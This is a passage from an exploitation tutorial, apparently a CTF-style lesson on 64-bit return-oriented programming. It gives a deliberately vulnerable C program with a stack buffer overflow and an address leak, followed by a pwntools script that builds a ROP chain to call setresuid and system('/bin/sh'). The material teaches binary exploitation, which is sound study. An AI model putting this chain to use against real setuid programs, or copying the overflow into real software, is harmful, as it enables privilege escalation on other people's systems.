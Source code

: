 ### 0.4 Proof of Concept (64bit)
```c

#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>

void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}

void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```
Unlike 32bit poc, the program gives us the address of printf@got, so no need for libc leak

This is what we're going to do:

1. find /bin/sh from Libc
2. find gadgets (3 args)
3. setresuid(.., .., ..)
4. system('/bin/sh')

exploit:
```python
from pwn import *

printfoff = 0x55800
systemoff = 0x45390
binshoff = 0x18cd57
suidoff = 0xcd570

p1 = 0x400843
p23 = 0x400841
p4off = 0x1b92

r = process('./rop64')
r.recvn(29)

printf =  int(r.recvn(14),16)
base = printf-printfoff

p4 = base + p4off

payload = 'a'*(0x40+8)

payload += p64(p1)
payload += p64(0)

payload += p64(base + 0x1150c9)
payload += p64(0)
payload += p64(0)

payload += p64(base + suidoff)
payload += p64(p1)
payload += p64(base + binshoff)
payload += p64(base + systemoff)

```